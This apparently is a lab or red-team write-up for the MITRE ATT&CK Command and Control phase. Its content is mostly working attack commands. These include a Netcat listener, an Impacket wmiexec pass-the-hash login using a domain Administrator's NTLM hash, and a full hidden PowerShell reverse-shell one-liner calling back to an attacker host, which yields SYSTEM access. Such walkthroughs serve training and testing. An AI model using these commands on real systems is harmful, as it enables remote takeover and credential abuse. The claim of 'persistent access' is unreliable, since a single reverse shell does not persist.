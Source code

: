 ## Phase 6: Command and Control (TA0011)

**MITRE ATT\&CK Phase:** TA0011 - Command and Control
**Objective:** Maintain persistent access and control over the compromised systems using covert channels and techniques.

---

### 🔧 Step-by-Step Attack Execution:

#### ✅ Step 1: Setting up the listener on Attacker Machine

We prepared to catch a reverse shell connection using Netcat.

```bash
nc -lvnp 4444
```

This starts a listener on port 4444.

---

#### ✅ Step 2: Launching Reverse Shell from Target (Post Exploitation)

We executed the following PowerShell reverse shell one-liner using Impacket's `wmiexec.py` from Phase 3 and Phase 5 context:

```bash
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py CORP/Administrator@192.168.50.5 -hashes aad3b435b51404eeaad3b435b51404ee:68ae965c9062b389f2a285e27ff0a566
```

Once connected to the WMI shell, we used this command:

```powershell
powershell -nop -w hidden -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.50.10',4444); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){ $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte, 0, $sendbyte.Length); $stream.Flush() }; $client.Close()"
```

This established a successful reverse shell on our attacker machine.

---

### 🧠 Result and Verification:

* Successfully received a PowerShell prompt on the attacker's terminal.
* Verified command execution on the target by issuing `whoami`, which returned:

```powershell
nt authority\system
```

This indicates SYSTEM-level access was achieved remotely.

---

### 🔐 MITRE Techniques Used:

* **T1059.001** – PowerShell (for reverse shell execution)
* **T1021.002** – Remote Services: SMB/Windows Admin Shares (used Impacket tools)
* **T1071.001** – Application Layer Protocol: Web Protocols (TCP over reverse shell)
* **T1105** – Ingress Tool Transfer (tools pushed to target)

---

### ✅ Conclusion

In this phase, I maintained persistent access by simulating a reverse shell channel using `wmiexec` and PowerShell TCP client. This completes the Command and Control stage. Screenshots were taken and logs were saved.

---
